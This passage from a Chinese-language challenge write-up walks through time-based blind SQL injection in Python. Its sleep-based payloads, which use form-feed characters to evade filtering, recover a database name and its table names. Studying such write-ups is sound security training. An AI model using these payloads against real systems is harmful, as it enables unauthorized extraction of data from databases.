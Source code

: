 ```python
            if log:
                print(f"Matched '{char}' at the index {i}!")
                print(f'- Current result: "{result}"')
    if log_result:
        print(f'[Result] "{result}"')
    return result
```

先获取数据库名：

```python
# 获取数据库长度
db_len = test_int(1,10,"if(length(database())={},sleep(5),1)")
print(db_len)
# 获取数据库名
database = loop_str(1, db_len+1, "if((substr(database(),{},1))='{}',sleep(5),1)", log=True, log_result=True)
print(database)
```

得到数据库名为 `wfy`.

再求表个数：

```python
# 求表个数
table_count = test_int(1,10,"if((select(count(table_name))from(information_schema.tables)where(table_schema=database()))={},sleep(5),1)")
```

得到表的个数为 `3`.

获取表名：

```python
table_name = []
for i in range(0, table_count):
    # 查找表i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(table_name))from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len==None:
            continue
    # 查找表i的名称
    table_name.append(loop_str(
        1, len+1,
        "if(substr((select(table_name)from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(table_name)
```

输出结果即为表名：

```python
['wfy_admin', 'wfy_comments', 'wfy_information']
```
